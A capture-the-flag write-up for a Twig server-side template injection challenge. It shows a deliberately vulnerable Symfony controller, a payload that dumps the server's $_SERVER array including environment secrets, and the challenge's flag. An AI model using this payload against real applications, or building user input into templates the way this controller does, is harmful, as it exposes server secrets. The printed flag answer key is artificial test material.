


use app.request.server.all|json_encode to get all global variables

## THE TWIG INJECTOR  



The challenge server has an `/inject` endpoint which allows us to create a custom Twig-rendered page with SSTI, but there is a blacklist being implemented.  

The challenge description directs us to find the flag in the `$_SERVER` global array.  

```php
<?php

namespace App\Controller;

use Symfony\Component\HttpFoundation\Request;
use Symfony\Component\HttpFoundation\Response;
use Symfony\Component\Routing\Annotation\Route;
use Symfony\Bundle\FrameworkBundle\Controller\AbstractController;

class ChallengeController extends AbstractController
{

    /**
     * @Route("/inject")
     */
    public function inject(Request $request)
    {
        $inject = preg_replace('/[^{\.}a-z\|\_]/', '', $request->query->get('inject'));
        $response = new Response($this->get('twig')->createTemplate("Welcome to the twig injector!\n${inject}")->render());
        $response->headers->set('Content-Type', 'text/plain');
        return $response;
    }

    /**
     * @Route("/")
     */
    public function index()
    {
        return new Response(highlight_file(__FILE__, true));
    }
}
```

We can use this payload to dump all global variables.  

```twig
{{app.request.server.all|json_encode}}
```

This will reveal the flag being stored under the key `APP_FLAG`.  



Flag: `247CTF{b8d4dce713400424bc2ab7fa673f231c}`